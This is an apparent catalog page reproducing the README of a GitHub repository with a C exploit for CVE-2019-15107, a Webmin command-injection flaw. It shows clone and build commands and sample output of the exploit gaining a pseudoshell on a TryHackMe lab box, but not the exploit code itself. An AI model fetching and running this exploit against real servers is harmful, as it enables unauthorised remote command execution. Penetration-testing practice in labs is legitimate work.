 # CVE-2019-15107

CVE-2019-15107 Webmin Exploit in C

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/whokilleddb](https://github.com/whokilleddb) |
| Url      | [https://github.com/whokilleddb/CVE-2019-15107](https://github.com/whokilleddb/CVE-2019-15107)                                               |
| Stars    | 2                                                          |
| License  | GNU General Public License v2.0                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* exploit* poc* vulnerability

</details>

## Readme

<h1 align="center">CVE-2019-15107 Webmin Exploit</h1>
<p align="center">
<a href="./LICENSE.md"><img src="https://img.shields.io/badge/License-GPL%20v2-blue.svg"></a>
<img src="https://img.shields.io/badge/Made%20With-C-green.svg"></a>

<h2>CVE-2019-15107</h2>
<p>An issue was discovered in <b>Webmin <=1.920</b>. The parameter <code>old</code> in <code>password_change.cgi</code> contains a command injection vulnerability. <a href="https://nvd.nist.gov/vuln/detail/cve-2019-15107" target="_blank"> [NVD]</a></p>

## Compiling
```bash
$ git clone https://github.com/whokilleddb/CVE-2019-15107
$ cd CVE-2019-15107
$ make
```

## Example Usage
```bash
$ ./exploit http://thomaswreath.thm:10000
[+] CVE-2019-15107 Webmin Unauhenticated Remote Command Execution
[+] Target URI: http://thomaswreath.thm:10000

======Headers======
HTTP/1.0 200 Document follows
Server: MiniServ/1.890
Date: Sat, 14 Aug 2021 23:40:01 GMT
Content-type: text/html; Charset=iso-8859-1
Connection: close

[~] The Given Server Is Running In SSL MODE
[+] Switching To SSL
[+] The Given Server Might Be Vulnerable To CVE-2019-15107
[+] The Given Server IS VULNERABLE To CVE-2019-15107
[+] Starting Pseudoshell
[+] Maximum Command Length(CMD_SIZE) Is Set To: 2048
[+] To Exit, type: exit()

```
_PS: This exploit was made while I was trying [TryHackMe's Wreath Network](https://tryhackme.com/room/wreath), hence the example show here corresponds to the box._

## F.A.Q
Q : **Why C instead of Python3?**

A : **Because I Am A Psychopath**



## Get the content

```
git clone https://github.com/whokilleddb/CVE-2019-15107
cd CVE-2019-15107
```

{% embed url="https://github.com/whokilleddb/CVE-2019-15107" %}

<figure><img src="https://avatars.githubusercontent.com/u/56482137?v=4" alt=""><figcaption><p>whokilleddb</p></figcaption></figure>
